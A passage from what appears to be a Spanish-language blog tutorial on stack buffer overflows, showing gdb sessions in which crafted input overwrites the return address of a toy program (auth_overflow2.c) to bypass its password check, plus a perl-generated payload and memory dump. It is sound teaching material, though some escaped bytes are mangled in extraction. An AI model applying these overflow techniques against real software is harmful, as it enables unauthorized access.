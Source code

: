 Aunque parece que no hemos sobreescrito la dirección de retorno, sí que lo hemos hecho, pero no se han escrito los ceros por la izquierda, quedando todo desplazado:

```bash
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0x7fffffffe74b "356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@") at auth_overflow2.c:16
16        return auth_flag;
(gdb) c
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
[Inferior 1 (process 3699) exited with code 034]

```

Para comprobar que sí que se sobreescribe, vamos a introducir una dirección sin ceros:

```bash
(gdb) run $(perl -e 'print "xaaxaaxaaxaaxaaxaaxaaxaa"x10')
Breakpoint 2, check_authentication (
    password=0x7fffffffe719 "252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252")
    at auth_overflow2.c:16
16     return auth_flag;
(gdb) x/10xg $rsp
0x7fffffffe380:   0x00007fffffffe38f  0x00007fffffffe719
0x7fffffffe390: 0xaaaaaaaaaaaaaaaa  0xaaaaaaaaaaaaaaaa
0x7fffffffe3a0: 0xaaaaaaaaaaaaaaaa  0xaaaaaaaaaaaaaaaa
0x7fffffffe3b0: 0xaaaaaaaaaaaaaaaa  (0xaaaaaaaaaaaaaaaa)
0x7fffffffe3c0:   0xaaaaaaaaaaaaaaaa  0xaaaaaaaaaaaaaaaa

```

En estos casos no nos es muy útil el buffer overflow, ya que solo podemos saltar a porciones del código existente, en entradas posteriores, veremos cómo conseguir una shell root.

Espero que os haya gustado.



 [1]: http://www.amazon.es/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag;=elbaudelpro-21&linkCode;=as2&camp;=3626&creative;=24822&creativeASIN;=1593271441

{% include toc.html %}
</main></repeats></string.h></stdlib.h></stdio.h>